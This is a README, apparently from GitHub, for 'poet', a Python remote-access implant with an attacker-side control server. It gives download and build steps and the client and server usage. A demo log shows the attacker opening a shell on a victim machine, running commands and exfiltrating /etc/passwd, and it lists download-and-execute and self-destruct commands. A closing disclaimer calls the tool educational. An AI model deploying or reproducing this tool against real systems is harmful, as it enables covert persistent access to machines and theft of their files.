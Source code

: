 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## getting started

Go to the [releases](http://github.com/mossberg/poet/releases) page and
download the latest `poet-client` and `poet-server` files available.

Then skip to the Usage section below.

Alternatively, you can build Poet yourself (it's pretty easy). Make sure you
have the `python2.7` and `zip` executables available.

```
$ git clone https://github.com/mossberg/poet
$ cd poet
$ make
```

This will create a `bin/` directory which contains `poet-client`
and `poet-server`.

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily try it out, a typical invocation would look like:

Terminal 1:

```
$ ./poet-client -v 127.0.0.1 1
```

Terminal 2:

```
$ sudo ./poet-server
```

Note: By default, the server needs to be run as root (using `sudo`) because
the default port it binds to is 443. If that makes you uncomfortable, simply
omit `sudo` and use the `-p <PORT>` flag on both the client and server. Pick a
nice, high number for your port (> 1024).

Of course, using the `-h` flag gives you the full usage.

```
$ ./poet-client -h
usage: poet-client [-h] [-p PORT] [-v] [-d] IP [INTERVAL]

positional arguments:
  IP                    server
  INTERVAL              (s)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --verbose
  -d, --delete          delete client upon execution

$ ./poet-server -h
usage: poet-server [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
```

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client (in verbose mode ;).  He/she does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ ./poet-client -v 1.2.3.4 10
[+] Poet started with interval of 10 seconds to port 443. Ctrl-c to exit.
[!] (2015-03-27 03:40:12.259676) Server is inactive
[!] (2015-03-27 03:40:22.263161) Server is inactive
[!] (2015-03-27 03:40:32.267308) Server is inactive
[+] (2015-03-27 03:40:42.273376) Server is active
[!] (2015-03-27 03:41:07.145979) Server is inactive
[!] (2015-03-27 03:41:17.150634) Server is inactive
[!] (2015-03-27 03:41:27.155614) Server is inactive
[!] (2015-03-27 03:41:37.160440) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# ./poet-server
                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] Poet server started on 443.
[+] (2015-03-27 03:40:42.272601) Connected By: ('5.4.3.2', 59309) -> VALID
[+] (2015-03-27 03:40:42.273087) Entering control shell
Welcome to psh, the Poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20150327/exfil/passwd-201503274054.txt
psh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
psh > exit
[+] (2015-03-27 03:40:57.144083) Exiting control shell.
[-] (2015-03-27 03:40:57.144149) Poet server terminated.
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
